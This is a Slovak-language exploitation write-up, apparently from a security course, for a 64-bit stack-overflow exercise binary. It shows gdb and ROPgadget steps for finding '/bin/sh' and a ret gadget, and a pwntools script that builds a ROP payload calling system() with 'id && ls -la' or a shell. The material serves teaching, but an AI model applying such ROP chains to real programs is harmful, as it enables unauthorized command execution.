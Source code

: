 **Adresa string /bin/sh**

Túto adresu som získal z gdb pri behu programu.

Najprv som použil príkaz **info proc mappings**, ktorý mi vypíše adresný priestor binárky. Potom som použil príkaz **find** aby som našiel string.

![](image-23.png)

```find 0x400000, 0x4f2000, "/bin/sh"```

Find hľadá string /bin/sh od adresy 0x400000 po adresu 0x4f2000.

![](image-24.png)


**Adresa inštrukcie ret**

V tomto prípade na to, aby sa príkazy vykonali v 64bit binárke, musia byť zarovnané podľa 16 bitov, to znamená, že potrebujem pridať padding medzi offset a rip, tak aby sa rip vpodstate posunul na nový riadok. Inštrukciu ret som našiel opäť s ROPgadget, tentokrát aj s použitím regexu na odfiltrovanie nepotrebných výsledkov.

```bash
ROPgadget --binary 002-exercise-stack-overflow-64bit | grep -E '^0x[0-9a-f]+ : ret$'
```

![](image-25.png)

Adresa inštrukcie ret je **0x000000000040101a**.


Keď som mal všetky tieto informácie, zostrojil som python script, ktorý vygeneruje payload.

```py
from pwn import *


padding = b"\x41" * 280
ret = p64(0x000000000040101a) # return instruction
pop_rdi = p64(0x0000000000401f5f) # pop rdi; ret instruction
system = p64(0x000000000040b860) # system call
string = b"id && ls -la" # system argument
bin = p64(0x000000000049b005) # pointer to /bin/sh string
buffer = p64(0x7fffffffe2a0 + 64) # pointer to arguments string
nop = b"\x90" * 8 # padding to arguments

# Exploit with given command
exploit = padding + ret + pop_rdi + buffer + system + nop + string

#Exploit with /bin/sh
#exploit = padding + ret + pop_rdi + bin + system

with open('payload_bonus64', 'wb') as f:
        f.write(exploit)
```